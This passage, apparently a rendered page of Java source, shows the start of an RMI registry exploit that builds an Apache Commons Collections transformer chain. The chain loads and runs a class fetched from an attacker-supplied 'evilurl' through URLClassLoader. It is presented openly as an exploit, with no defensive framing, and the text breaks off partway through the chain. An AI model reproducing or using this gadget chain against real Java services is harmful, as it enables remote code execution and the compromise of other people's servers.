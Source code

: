 ```java
public class RMIRegistryExploitWithHashtable
{
    @SuppressWarnings("unchecked")
    public static void main ( String[] argv ) throws Exception
    {
        String          addr        = argv[0];
        int             port        = Integer.parseInt( argv[1] );
        String          evilurl     = argv[2];
        String          evilclass   = argv[3];
        String[]        evilparam   = Arrays.copyOfRange
        (
            argv,
            4,
            argv.length
        );
        Transformer[]   tarray      = new Transformer[]
        {
            new ConstantTransformer( URLClassLoader.class ),
            new InvokerTransformer
            (
                "getMethod",
                new Class[]
                {
                    String.class,
                    Class[].class
                },
                new Object[]
                {
                    "newInstance",
                    new Class[]
                    {
                        URL[].class
                    }
                }
            ),
            new InvokerTransformer
            (
                "invoke",
                new Class[]
                {
                    Object.class,
                    Object[].class
                },
                new Object[]
                {
                    null,
                    new Object[]
                    {
                        new URL[]
                        {
                            new URL( evilurl )
                        }
                    }
                }
            ),
            new InvokerTransformer
            (
                "loadClass",
                new Class[]
                {
                    String.class
                },
                new Object[]
```